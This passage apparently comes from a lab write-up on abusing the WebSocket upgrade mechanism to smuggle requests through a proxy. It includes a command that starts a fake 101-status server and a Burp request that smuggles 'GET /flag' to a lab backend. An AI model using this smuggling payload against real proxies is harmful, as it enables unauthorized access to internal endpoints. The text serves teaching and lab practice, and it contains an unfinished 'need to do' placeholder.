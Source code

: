 ```
python3 attack.py 5555
```

This should spin up a web server on port 5555 that will reply with a 101 status code to any request.


### Faking a WebSocket

We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to /check-url against our malicious server. The request should look like this:

```shell
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: 10.10.201.33:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.201.33:8002


```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp (note that you need to add two newlines at the end of your payload in Burp):

Remember that `/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.

```
need to do
```



## conclusion

In this room, we've shown two ways attackers can abuse the WebSockets upgrade mechanism to smuggle requests through a vulnerable proxy. While this attack will only work on specific setups, it's worth exploring since WebSockets adoption will likely increase in time.

If you are interested in taking a deeper look into the topic, be sure to check the original research on the subject done by Mikhail Egorov (0ang3el) at the following link:

- [https://github.com/0ang3el/websocket-smuggle](https://github.com/0ang3el/websocket-smuggle) 










